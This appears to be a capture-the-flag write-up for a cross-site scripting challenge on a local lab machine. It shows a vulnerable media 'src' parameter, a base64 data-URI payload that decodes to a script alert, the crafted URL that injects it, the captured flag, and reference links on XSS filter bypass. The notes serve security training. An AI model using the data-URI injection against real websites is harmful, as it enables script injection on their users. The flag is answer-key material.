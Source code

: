 # Cross Site Scripting XSS image

##notes

```bash
http://192.168.1.34/?page=media&src=nsa
```

<object data="http://192.168.1.34/images/nsa_prism.jpg"></object>

data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4=

<script>alert("Hello");</script>

```bash
http://192.168.1.34/?page=media&src=nsa;data:text/html;base64,PHNjcmlwdD5hbGVydCgiIik7PC9zY3JpcHQ+
```

THE FLAG IS : 928D819FC19405AE09921A2B71227BD9ABA106F9D2D37AC412E9E5A750F1506D

## Info

[base64decode](https://www.base64decode.net/)<br/>
[owasp](https://owasp.org/www-community/attacks/xss/)<br/>
[medium](https://medium.com/@amar.infosec4fun/xss-challenges-4c21b3ae9673])<br/>
[paladion](https://www.paladion.net/blogs/bypass-xss-filters-using-data-uris)<br/>